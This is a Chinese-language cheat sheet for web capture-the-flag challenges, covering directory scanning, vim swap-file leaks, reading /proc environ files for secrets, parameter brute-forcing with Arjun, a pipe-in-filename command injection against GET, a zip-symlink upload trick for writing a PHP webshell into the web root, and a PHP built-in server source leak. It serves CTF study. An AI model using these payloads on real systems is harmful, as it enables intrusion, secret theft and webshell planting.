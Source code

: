 拿到题，访问web。
查看源码 仔细查看或者搜索关键词，如flag,include等，提示方向。

F12查看网络请求情况。
最好抓包，仔细查看请求头，响应头信息。

查看传参，回显情况。sql注入，文件包含，模板注入。

目录测试，如flag.php，robots.txt，www.zip
探针/tz.php，/backup.sql
```
D:\mypython\python311\python.exe  dirsearch.py -u "http://16b5eb0b-ac30-452a-808a-0e9214102abd.node3.buuoj.cn/" -s 1 --exclude-status=429,403 -t 1
```

^
早期 asp+access 架构的数据库文件为db.mdb，访问/db/db.mdb下载一个文件。Access或文本打开搜索得到flag。

^
临时文件
>临时文件是在vim编辑文本时就会创建的文件，如果程序正常退出，临时文件自动删除，如果意外退出就会保留，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。所以通过在url后面加上/index.php.swp即可看到flag。
以index.php来说，第一次退出后，缓存文件名为index.php.swp，第二次退出后，缓存文件名为index.php.swo,第三次退出后文件名为index.php.swn。
场景：发现网页有个错别字？赶紧在生产环境vim改下，不好，死机了

^
一般flag在/flag或/flag.txt中，也可能在env命令环境变量中，还可能在phpinfo()中，php的$GLOBALS数组中, echo $flag中。
/read?file=/proc/self/environ
/read?file=/proc/environ
cat /proc/1/environ
cat /proc/$PID/environ
^
## **爆破参数**
一个网站没有任何传参提示，如python ssti注入点，需要用工具爆破出参数。
工具arjun


**安装**
```
pip3 install arjun
```
或者下载github项目<https://github.com/s0md3v/Arjun>，使用python安装
```
python3 setup.py install
```

**使用**
```
python3 arjun -u http://e3.buuoj.cn/ -c 100 -d 5
arjun  -u http://e3.buuoj.cn/ -c 100 -d 5
```


^
## **linux中程序漏洞**
#### **GET函数漏洞**
>低层的open函数存在命令执行漏洞：如果open文件名中存在管道符（也叫或符号|），就会将文件名直接以命令的形式执行，然后将命令的结果存到与命令同名的文件中(前提先有这个文件)。
```
GET /
查看根目录目录
GET file:|readflag
会执行readflag程序的命令，并返回程序执行结果到readflag文件，没有先创建。

GET file:bash -c /readflag|
会执行readflag程序命令，并返回程序执行结果到readflag|文件，没有先创建。
```


^
#### **unzip命令危害软连接**
已知一个程序是要你上传zip压缩包，然后自动解压到/tmp目录。我们想让他解压到web后门。
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};
```
我们的可以创建一个名文linkto的软链接文件，指定的链接地址为/var/www/html/，并压缩为linkto.zip
```
ln -s /var/www/html linkto 
zip --symlinks linkto.zip linkto
```
同时创建一个名为linkto的目录，目录里放一个php木马，再返回上一级压缩目录为linkto1.zip
```
cd ../
zip -r linkto1.zip ./*
```
先上传linkto.zip，再上传linkto1.zip即可再web目录写下木马。








^
## **nuclei扫描**
有时候可能会出现一些cve漏洞作为前提，这时候可以漏扫一下先。


如：PHP<=7.4.21时通过`php -S`开起的WEB[服务器]存在源码泄露漏洞。 
payload：
```
GET /flag.php HTTP/1.1
Host: challenge.wucup.cn:38308


GET /Kawakaze HTTP/1.1
```

